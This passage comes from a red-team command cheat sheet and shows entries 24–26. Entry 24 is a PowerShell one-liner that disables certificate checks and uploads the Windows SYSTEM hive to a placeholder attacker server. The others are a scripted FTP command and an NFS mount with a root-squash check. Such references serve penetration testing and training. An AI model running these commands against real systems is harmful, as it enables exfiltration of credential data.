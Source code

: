 https://www.amazon.co.uk/Rtfm-Red-Team-Field-Manual/dp/1494295504
__________
### 24. Powershell upload file VIA post, script must write this out
```
powershell.exe -noprofile -noninteractive -command "[System.Net.ServicePointManager]::ServerCertificateValidationCallback{$true}$server="[$ip]/[script]";$filepath="c:/temp/SYSTEM";$http = new-object System.Net.Webclient; $response = $http.uploadFile($server,$filepath);"
```
**- networking,files,interesting,Windows,powershell**
#### References:

https://www.amazon.co.uk/Rtfm-Red-Team-Field-Manual/dp/1494295504
__________
### 25. uninteractive FTP, read commands from file
```
ftp -s ftp.txt
```
**- files,interesting,Windows**
#### References:

https://technet.microsoft.com/en-gb/library/bb490910.aspx
__________
### 26. Mount a NFS share (check for root squash)
```
mount -t nfs 10.0.0.2:[/their/share] [/Mount/point] -o nolock
```
**- nfs,fileshare**
#### References:

https://www.centos.org/docs//4/4.5/Reference_Guide/s2-nfs-client-config-options.html
__________
